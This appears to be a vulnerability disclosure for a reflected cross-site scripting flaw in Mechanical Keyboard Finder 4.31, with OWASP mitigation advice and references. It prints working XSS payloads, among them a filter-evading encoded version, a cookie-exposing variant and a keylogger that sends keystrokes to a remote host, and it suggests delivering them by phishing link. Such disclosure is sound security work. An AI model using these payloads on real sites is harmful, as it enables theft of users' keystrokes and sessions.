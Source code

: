 # Mechanical Keyboard Finder Version 4.31 Cross Site Scripting

Mechanical Keyboard Finder Version 4.31 was discovered to contain a cross site scripting vulnerability.

### Sample payload:

```
</h3><img src=x onerror=prompt(document.domain)><h3>
```

This will cleanly close off the encompassing h3 tag and allow us to execute javascript code to display an alert to the screen with the name of the vulnerable domain.

*Note: in scenarios where the application does some form of basic input sanitization searching for bad characters we could url encode our payload like so:*

```
Sample payload encoded:
%3C%2Fh3%3E%3Cimg%20src%3Dx%20onerror%3Dprompt%28document.domain%29%3E%3Ch3%3E
```

# Taking it Further

The XSS vulnerability happens to be reflected in the URL. This means we could carry out the XSS attack by providing a simple link in a phishing campaign. Displaying user cookies could be done with the following payload:

```
</h3><img src=x onerror=prompt(document.cookie)><h3>
```

Keylogging and shipping the data off to a remote server is also quite simple:

```
</h3><img src=x onerror=prompt'document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'><h3>
```

From here the possibilities are endless. There are quite a few XSS payloads on the web. Some possible attack scenarios include:

* Account Hijacking
* Port Scanning
* Spying/Keylogging
* Browser Hooking with BeEF
* Installing Backdoors/Malware

# Mitigation

OWASP recommends the following actions to prevent such attacks:

*For XSS attacks to be successful, an attacker needs to insert and execute malicious content in a webpage. Each variable in a web application needs to be protected. Ensuring that all variables go through validation and are then escaped or sanitized is known as perfect injection resistance. Any variable that does not go through this process is a potential weakness. Frameworks make it easy to ensure variables are correctly validated and escaped or sanitised. However, frameworks aren't perfect and security gaps still exist in popular frameworks like React and Angular. Output Encoding and HTML Sanitization help address those gaps.*

# References

* https://portswigger.net/web-security/cross-site-scripting
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
* https://www.owasp.org/index.php/Testing_for_Cross_site_scripting
* https://www.geeksforgeeks.org/dhtml-javascript/
* https://mechanicalkeyboards.com/about.php
* https://www.owasp.org/index.php/DOM_Based_XSS
* https://www.w3schools.com/html/html_entities.asp
* https://www.google.com/about/appsecurity/learning/xss/
* https://www.php.net/manual/en/function.htmlspecialchars.php
* https://www.php.net/manual/en/function.htmlentities.php
